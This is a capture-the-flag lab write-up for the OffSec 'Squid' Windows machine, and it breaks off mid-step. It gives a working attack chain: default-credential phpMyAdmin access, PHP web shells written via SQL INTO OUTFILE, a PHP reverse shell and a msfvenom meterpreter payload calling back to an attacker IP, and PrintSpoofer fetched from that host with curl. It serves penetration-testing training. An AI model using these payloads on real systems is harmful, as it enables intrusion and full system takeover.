








# Squid

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 2
Lab Description:
In this lab, we will enumerate ports behind a Squid proxy to gain an initial foothold through phpMyAdmin. 
Privileges will then be elevated by creating scheduled tasks to enable restricted privileges. This lab 
focuses on exploiting proxy configurations and privilege escalation methods.
```

Machine link: [https://portal.offsec.com/machine/squid-38173/overview/details](https://portal.offsec.com/machine/squid-38173/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ export TARGET_IP=192.168.101.189

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ sudo nmap -sC -sV -p- $TARGET_IP             
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-14 09:03 +0100
Nmap scan report for 192.168.101.189
Host is up (0.032s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-14T08:05:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.17 seconds
```

We have the following TCP-services running and available:

- [Microsoft Windows RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) on port 135
- A [NetBIOS Session Service](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Session_service) on port 139
- [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) on port 445
- A [Squid](https://en.wikipedia.org/wiki/Squid_(software)) HTTP proxy on port 3128

### Further Enumeration via SMB/RPC

Next, we check for shares with NetExec but we don't have access (yet).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.101.189 445    SQUID            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQUID) (domain:SQUID) (signing:False) (SMBv1:None)
SMB         192.168.101.189 445    SQUID            [-] SQUID\: STATUS_ACCESS_DENIED 
SMB         192.168.101.189 445    SQUID            [-] Error enumerating shares: Error occurs while reading from remote(104)
                                                                                                                                                                                         
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.101.189 445    SQUID            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQUID) (domain:SQUID) (signing:False) (SMBv1:None)
SMB         192.168.101.189 445    SQUID            [-] SQUID\Guest: STATUS_ACCOUNT_DISABLED 
```

### Analyse the squid proxy

Browsing manually to `http://192.168.101.189:3128/` shows an error message:



Again we see the version running which is `4.14`.

### Search for available exploits

Let's see if there are any available exploits.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ searchsploit squid     
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
MySQL Squid Access Report 2.1.4 - HTML Injection                                                                                                       | php/webapps/20055.txt
MySQL Squid Access Report 2.1.4 - SQL Injection / Cross-Site Scripting                                                                                 | php/webapps/44483.txt
National Science Foundation Squid Proxy 2.3 - Internet Access Control Bypass                                                                           | linux/remote/24105.txt
National Science Foundation Squid Web Proxy 1.0/1.1/2.1 - Authentication Failure                                                                       | linux/remote/19567.txt
PageSquid CMS 0.3 Beta - 'index.php' SQL Injection                                                                                                     | php/webapps/5899.txt
Squid - 'httpMakeVaryMark()' Remote Denial of Service                                                                                                  | linux/dos/38365.txt
Squid - NTLM (Authenticated) Overflow (Metasploit)                                                                                                     | linux/remote/16847.rb
Squid 2.0-4 - Cache FTP Proxy URL Buffer Overflow                                                                                                      | unix/remote/21297.c
Squid 2.4.1 - Remote Buffer Overflow                                                                                                                   | linux/remote/347.c
Squid 2.5.x/3.x - NTLM Buffer Overflow (Metasploit)                                                                                                    | multiple/remote/9951.rb
Squid 3.3.5 - Denial of Service (PoC)                                                                                                                  | linux/dos/26886.pl
Squid < 3.1 5 - HTTP Version Number Parsing Denial of Service                                                                                          | multiple/dos/8021.pl
Squid Analysis Report Generator 2.3.10 - Remote Code Execution                                                                                         | php/webapps/42993.txt
Squid Proxy 2.4/2.5 - NULL URL Character Unauthorized Access                                                                                           | linux/remote/23777.txt
Squid Proxy 2.5/2.6 - FTP URI Remote Denial of Service                                                                                                 | linux/dos/29473.txt
Squid Web Proxy 2.2 - 'cachemgr.cgi' Unauthorized Connection                                                                                           | cgi/remote/20465.sh
Squid Web Proxy 2.3 - Reverse Proxy                                                                                                                    | linux/remote/21017.txt
SquidGuard 1.4 - Long URL Handling Remote Denial of Service                                                                                            | xml/dos/37685.txt
SquidGuard 1.x - NULL URL Character Unauthorized Access                                                                                                | linux/remote/23848.txt
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Nope, nothing that stands out.

### Scan with Spose

After some research I found a scanner tool called [Spose (Squid Pivoting Open Port Scanner)](https://github.com/aancw/spose).

Let's use it to scan the machine itself.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ wget https://raw.githubusercontent.com/aancw/spose/refs/heads/master/spose.py        
--2026-11-14 09:36:44--  https://raw.githubusercontent.com/aancw/spose/refs/heads/master/spose.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2973 (2.9K) [text/plain]
Saving to: ‘spose.py’

spose.py                                       100%[=================================================================================================>]   2.90K  --.-KB/s    in 0.002s  

2026-11-14 09:36:44 (1.76 MB/s) - ‘spose.py’ saved [2973/2973]


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ ./spose.py                        
usage: spose.py [-h] --proxy PROXY --target TARGET [--ports PORTS] [--allports]

Squid Pivoting Open Port Scanner

options:
  -h, --help       show this help message and exit
  --proxy PROXY    Define proxy address URL (http://x.x.x.x:3128)
  --target TARGET  Define target IP behind proxy
  --ports PORTS    [Optional] Define target ports behind proxy (comma-separated)
  --allports       [Optional] Scan all 65535 TCP ports behind proxy

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ ./spose.py --proxy http://$TARGET_IP:3128 --target $TARGET_IP
Scanning default common ports
Using proxy address http://192.168.101.189:3128
192.168.101.189:3306 seems OPEN
192.168.101.189:8080 seems OPEN
```

Nice, we have two open ports. Port 8080 looks like a web port, let's see if we can access it via `curl`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ curl -s --proxy $TARGET_IP:3128 http://$TARGET_IP:8080 | head
<!DOCTYPE html>
<html>
<head>
        <title>WAMPSERVER Homepage</title>
        <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width">
        <link id="stylecall" rel="stylesheet" href="wampthemes/classic/style.css" />
        <link rel="shortcut icon" href="favicon.ico" type="image/ico" />
</head>
```

We have a [WAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle)#Variants) server. The Windows version of [LAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle)).

### Browse via the squid proxy

Since commandline access is a bit cumbersome, [FoxyProxy](https://getfoxyproxy.org/) was configured to use Squid as a proxy.



We can then browse to port 8080 again and get the following web page:



Browsing around we find [phpMyAdmin](https://en.wikipedia.org/wiki/PhpMyAdmin) on `http://192.168.101.189:8080/phpmyadmin/`:



And we find general system information on `http://192.168.101.189:8080/phpsysinfo/index.php?disp=bootstrap`:



The OS is Windows Server 2019.

Finally, we have a phpinfo() page on `http://192.168.101.189:8080/?phpinfo=-1`:



On this page we can see that the DOCUMENT_ROOT is `C:/wamp/www` and that [allow_url_fopen](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen) is `On`.

### Login to phpMyAdmin

Using [default credentials](https://stackoverflow.com/questions/33579480/what-is-the-default-username-and-password-of-phpmyadmin) of `root:<none>` we get access to phpMyAdmin:



### Create local files

Via the `SQL` tab we can then create local files such as a web shell:

```sql
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'C:/wamp/www/web_shell.php'
```

or an [upload file form](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f):

```sql
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```



To verify functionality of the web shell, we can use `curl`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ curl --proxy $TARGET_IP:3128 "http://$TARGET_IP:8080/web_shell.php?cmd=whoami"
nt authority\local service
```

Nice!

### Upload a reverse shell

Next, we configure and upload [ivan-cincek's php-reverse-shell.php'](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) that works well on Windows.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2026-11-14 11:16:23--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7865 (7.7K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                          100%[=================================================================================================>]   7.68K  --.-KB/s    in 0.004s  

2026-11-14 11:16:23 (2.03 MB/s) - ‘php_reverse_shell.php’ saved [7865/7865]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ vi php_reverse_shell.php 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ tail php_reverse_shell.php
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('192.168.45.247', 12345);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

We start a [Penelope](https://github.com/brightio/penelope) listener on port 12345:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.247:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

And upload the reverse shell via our `uploader.php`.

Finally, we trigger the reverse shell via `curl`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ curl --proxy $TARGET_IP:3128 "http://$TARGET_IP:8080/php_reverse_shell.php"   

```

### Get a reverse shell

Back at our listener, we now have a shell:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.247:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => SQUID 192.168.101.189 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 nt authority\local service 😍 Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/SQUID~192.168.101.189-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_11_14-11_26_15-768-nt authority\local service.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

C:\wamp\www>whoami
nt authority\local service

C:\wamp\www>
```

### Get the user flag

We can then search for the user flag.

```bat
C:\wamp\www>where /R C:\ local.txt
C:\local.txt

C:\wamp\www>type C:\local.txt
a<REDACTED>5

C:\wamp\www>
```

### Upgrade our shell to meterpreter

We would like a better shell so we create a meterpreter shell with `msfvenom`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o revshell.exe LHOST=tun0 LPORT=443                                           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 509 bytes
Final size of exe file: 7680 bytes
Saved as: revshell.exe
```

A multi/handler listener is then created in Metasploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Squid]
└─$ sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost tun0; set lport 443; exploit"          
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 192.168.45.247
lport => 443
[*] Started reverse TCP handler on 192.168.45.247:443 
```

And the `revshell.exe` is then uploaded and triggerd.

We get a connection:

```bash
[*] Sending stage (255677 bytes) to 192.168.101.189
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.37/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] Meterpreter session 1 opened (192.168.45.247:443 -> 192.168.101.189:49821) at 2026-11-14 12:54:28 +0100

meterpreter > sysinfo
Computer        : SQUID
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

### Enumeration for PrivEsc

Next, we enumerate the system for privilege escalation opportunities.

My [Windows Privilege Escalation Checklist](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist) is used as guidance.

First, we check our privileges.

```bash
meterpreter > shell
Process 4692 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>whoami
whoami
nt authority\local service

C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\wamp\www>exit  
exit
meterpreter > 
```

That's strange - not the normal set of privileges for [LocalService](https://learn.microsoft.com/en-us/windows/win32/services/localservice-account).

### Restore privileges

We can restore our privileges with [FullPowers](https://github.com/itm4n/FullPowers).

```bash
meterpreter > upload FullPowers.exe
[*] Uploading  : /mnt/hgfs/OffSec_PG/PG_Practice/Fundamental/Squid/FullPowers.exe -> FullPowers.exe
[*] Uploaded 36.00 KiB of 36.00 KiB (100.0%): /mnt/hgfs/OffSec_PG/PG_Practice/Fundamental/Squid/FullPowers.exe -> FullPowers.exe
[*] Completed  : /mnt/hgfs/OffSec_PG/PG_Practice/Fundamental/Squid/FullPowers.exe -> FullPowers.exe
meterpreter > shell
Process 2484 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>FullPowers.exe
FullPowers.exe
[+] Started dummy thread with id 2968
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

C:\Windows\system32>
```

Nice, we have better privileges, including `SeImpersonatePrivilege`.

### Escalate to SYSTEM

This privilege can be used together with [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to get SYSTEM access.

```bat
C:\Windows\system32>cd C:\wamp\www
cd C:\wamp\www

C:\wamp\www>curl http://192.168.45.247/PrintSpoofer64.exe -o PrintSpoofer64.exe
curl http://192.168.45.247/PrintSpoofer64.exe -o PrintSpoofer64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 27136  100 27136    0     0  27136      0  0:00:01 --:--:--  0:00:01  240k

C:\wamp\www>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\wamp\www

